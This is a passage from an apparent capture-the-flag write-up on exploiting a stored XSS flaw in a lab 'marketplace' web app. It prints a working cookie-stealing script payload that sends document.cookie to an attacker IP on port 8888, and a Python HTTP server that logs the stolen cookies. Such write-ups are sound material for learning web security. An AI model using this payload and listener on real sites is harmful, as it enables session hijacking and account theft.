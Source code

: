 With that, we were able to see that the title was indeed *italicised*

![xss is present](img/marketplace/vuln%20to%20xss.png)

Knowing that it is vulnerable to XSS, we could use the XSS cookie stealer payload `<script>var i=new Image;i.src="http://10.11.67.208:8888/?"+document.cookie;</script>` and set up a [server](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) using the following script on the attacking machine.

```
#!/usr/bin/env python
# POC for cookie stealing through XSS
# Should work with:
# <script>
#   image = new Image();
#   image.src='http://X.X.X.X:8888/?'+document.cookie;
# </script>

# Written by Ahmed Shawky @lnxg33k

from BaseHTTPServer import BaseHTTPRequestHandler, HTTPServer
from urlparse import urlparse, parse_qs
from datetime import datetime


class MyHandler(BaseHTTPRequestHandler):

    def do_GET(self):
        query_components = parse_qs(urlparse(self.path).query)
        print ""
        print "%s - %s\t%s" % (
            datetime.now().strftime("%Y-%m-%d %I:%M %p"),
            self.client_address[0],
            self.headers['user-agent'])
        print "-------------------"*6
        for k, v in query_components.items():
            print "%s\t\t\t%s" % (k.strip(), v)

        # print query_components
        # self.send_response(500)

        # self.send_header("Content-type", "text/html")
        # self.end_headers()
        # self.wfile.write(c)
```